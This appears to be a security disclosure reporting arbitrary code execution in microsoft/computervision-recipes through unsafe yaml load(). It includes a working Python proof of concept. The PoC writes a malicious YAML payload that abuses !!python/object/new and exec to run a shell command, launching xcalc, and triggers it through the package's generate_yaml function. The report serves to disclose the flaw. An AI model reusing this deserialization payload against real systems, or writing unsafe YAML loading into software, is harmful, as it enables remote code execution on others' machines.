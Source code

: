 # Description
**Arbitrary Code Excecution** in microsoft/computervision-recipes.
This repository provides examples and best practice guidelines for building computer vision systems.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**
# Exploit code
**Python File**
```python
import os
import utils_cv.common.deployment as deployment

#setup -- if you havn't done the setup , uncomment the below line 
os.system('pip install git+https://github.com/microsoft/ComputerVision.git@master#egg=utils_cv')

exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('exploit.yml','w+').write(exploit)
nl = []
deployment.generate_yaml('./','exploit.yml',nl,'exploit.yml')
os.system('rm ./exploit.yml')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/785942792337621012/Screenshot_from_2020-12-09_00-10-55.png)
